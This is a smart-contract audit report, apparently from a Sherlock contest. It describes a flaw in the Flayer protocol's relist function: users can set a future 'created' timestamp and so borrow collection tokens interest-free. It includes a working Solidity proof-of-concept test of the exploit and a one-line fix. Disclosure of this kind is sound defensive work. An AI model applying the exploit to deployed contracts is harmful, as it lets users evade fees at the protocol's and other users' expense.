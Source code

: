 Clean Snowy Mustang

High

# Listing created time is not updated when relisting

## Summary
Listing created time is not updated when relisting.

## Vulnerability Detail
When relisting a old listing, the new listing info is stored exactly the same as the argument user passes.

[Listings.sol#L664-L665](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L664-L665):
```solidity
        // Store our listing into our Listing mappings
        _listings[_collection][_tokenId] = listing;
``` 

This means the new listing's created time is also assigned by the user, instead of updated by the protocol. This can be leveraged by a user to borrow collection token without paying interests.

Consider the following scenario:
1. Bob creates a listing, "borrows" 0.96 ether collection tokens (1 ether - 0.04 ether tax);
2. Bob uses another account to relist the listing, set the `created` time to `block.timestamp + 6 days`;
3. Bob's listing cannot be filled by anyone because the `created` time is in the future;
4. 6 days passed, Bob cancels his Listing, receives 0.04 ether back, he essentially borrows 0.96 ether for 6 days and for free.

In reality, it's unlikely the listing can be cancelled exactly at the the `created` time but seconds later, the actually fees can still be negligible.

In addition to that, a honest user may set `created` time to the time they submits the transaction, however, the transaction may pending for a long time before it is actually executed, as a result, user will need to pay more fees when their listing is filled or cancelled.

Please run the PoC in Listings.t.sol to verify:
```solidity
    function testAudit_RelistToAvoidInterests() public {
        // GMT: Friday, September 13, 2024 4:00:00 AM
        vm.warp(1726200000);

        ICollectionToken collectionToken = locker.collectionToken(address(erc721a));

        address bob1 = makeAddr("Bob1");
        erc721a.mint(bob1, 888);

        Listings.Listing memory listing = IListings.Listing({
            owner: payable(bob1),
            created: uint40(block.timestamp),
            duration: 7 days,
            floorMultiple: 200
        });

        vm.startPrank(bob1);
        erc721a.approve(address(listings), 888);
        IListings.CreateListing[] memory createListings = new IListings.CreateListing[](1);
        createListings[0] = IListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(888),
            listing: listing
        });
        listings.createListings(createListings);
        vm.stopPrank();

        address bob2 = makeAddr("Bob2");
        mintCollectionTokens(address(erc721a), bob2, 1, 2);

        // Bob relists his own listing and set `created` to 6 days in the future
        vm.startPrank(bob2);
        collectionToken.approve(address(listings), type(uint256).max);
        listings.relist({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(888),
                listing: IListings.Listing({
                    owner: payable(bob2),
                    created: uint40(block.timestamp + 6 days),
                    duration: 7 days,
                    floorMultiple: 200
                })
            }),
            _payTaxWithEscrow: false
        });
        vm.stopPrank();

        // Listing created time is set to 6 days in the future
        listing = listings.listings(address(erc721a), 888);
        assertEq(listing.created, 1726200000 + 6 days);

        /**
            Initially, Bob has 2 ether (bob2) in total, now he owns 2.96 ether, Bob essentially `borrows` 0.96 ether
         */
        assertEq(collectionToken.balanceOf(bob1), 1 ether + 0.96 ether);
        assertEq(listings.balances(bob1, address(collectionToken)), 0.04 ether);
        assertEq(collectionToken.balanceOf(bob2), 0.96 ether);
        assertEq(listings.balances(bob2, address(collectionToken)), 0);

        address alice = makeAddr("Alice");
        mintCollectionTokens(address(erc721a), alice, 3, 2);

        uint[][] memory tokenIdsOut = new uint[][](1);
        tokenIdsOut[0] = new uint[](1);
        tokenIdsOut[0][0] = 888;

        // Bob's listing cannot be filled because its created time is in the future
        vm.startPrank(alice);
        collectionToken.approve(address(listings), type(uint256).max);
        vm.expectRevert(IListings.ListingNotAvailable.selector);
        listings.fillListings(
            IListings.FillListingsParams({
                collection: address(erc721a),
                tokenIdsOut: tokenIdsOut
            })
        );
        vm.stopPrank();

        vm.warp(block.timestamp + 6 days);

        // Bob cancels the listing
        vm.startPrank(bob2);
        listings.cancelListings(address(erc721a), _tokenIdToArray(888), false);
        vm.stopPrank();

         /**
            Bob receives ERC721 item back and still owns 2 ether, he pays no fee for borrowing 0.96 ether
         */
        assertEq(erc721a.ownerOf(888), bob2);
        assertEq(collectionToken.balanceOf(bob1), 1.96 ether);
        assertEq(listings.balances(bob1, address(collectionToken)), 0.04 ether);
        assertEq(collectionToken.balanceOf(bob2), 0);
        assertEq(listings.balances(bob2, address(collectionToken)), 0);
    }

    function mintCollectionTokens(address collection, address to, uint id, uint count) private {
        ERC721Mock token = ERC721Mock(collection);

        uint[] memory depositTokenIds = new uint[](count);

        for (uint i; i < count; ++i) {
            token.mint(address(this), id);
            depositTokenIds[i] = id;
            ++id;
        }

        erc721a.setApprovalForAll(address(locker), true);
        locker.deposit(collection, depositTokenIds, to);
    }
```

## Impact

1. User can borrow collection tokens for free;
2. User may suffer more fees.

## Code Snippet

https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L665

## Tool used

Manual Review

## Recommendation

When relisting, the new listing's `created` time should be updated to the current timestamp.

[Listings.sol#L665](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L665):
```diff
+       listing.created = uint40(block.timestamp);
        _listings[_collection][_tokenId] = listing;
```